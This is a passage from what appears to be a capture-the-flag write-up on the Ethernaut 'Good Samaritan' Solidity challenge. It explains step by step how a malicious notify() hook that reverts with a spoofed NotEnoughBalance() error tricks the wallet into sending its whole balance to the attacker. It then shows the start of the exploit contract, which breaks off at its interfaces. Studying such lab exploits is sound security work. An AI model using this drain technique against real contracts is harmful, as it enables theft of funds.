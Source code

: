 ```sol
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}
```

- The contract is deploying new instances of the `Wallet` and `Coin` contracts.
- The function `requestDonation()` is of interest here. We can call this function externally. Note that this whole thing is inside a `try` and `catch` block.
    - The `try` block is executing the `wallet.donate10(msg.sender)` call with `msg.sender` being anyone who called the function.
    - The `catch` block is validating if the error thrown as a result of an error with the `try` block matches with the string of the custom error message `NotEnoughBalance()`. If it does match, then the wallet will transfer all the amount to us. This is what we need to achieve.

---
## The Attack Flow

Let's take a few steps back and trace what happens when we call the `requestDonation()` function:

1. We made a call to `requestDonation()` and the execution flow goes to `wallet.donate10(msg.sender)`.
2. The wallet contract calls `coin.transfer()` if everything goes well.
3. The `coin.transfer()` function does the necessary calculations, checks if our address is a contract, and then calls a `notify()` function on our address.
4. This is where we attack. We create a `notify()` function in our contract and make it revert a custom error with the name `NotEnoughBalance()`. This will trigger the error in the `GoodSamaritan.requestDonation()` function and the `catch()` block will be triggered transferring us all the tokens.
5. But wait, there's another catch. Transferring all the tokens won't work because our contract will just revert the transaction. To counter this, we will need to add another condition to our `notify()` function to check if the `amount <= 10`, and then only revert.

---
## The Exploit

Here's how our exploits code looks like:

```sol
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface IGoodSamaritan {
    function wallet() external view returns(address);
    function coin() external view returns(address);

    function requestDonation() external returns(bool enoughBalance);
}

interface ICoin {
    function transfer(address dest_, uint256 amount_) external;
}

interface IWallet {
    // The owner of the wallet instance
    function owner() external view returns(address);
    function coin() external view returns(address);
    function donate10(address dest_) external;
    function transferRemainder(address dest_) external;
}

interface INotifyable {
```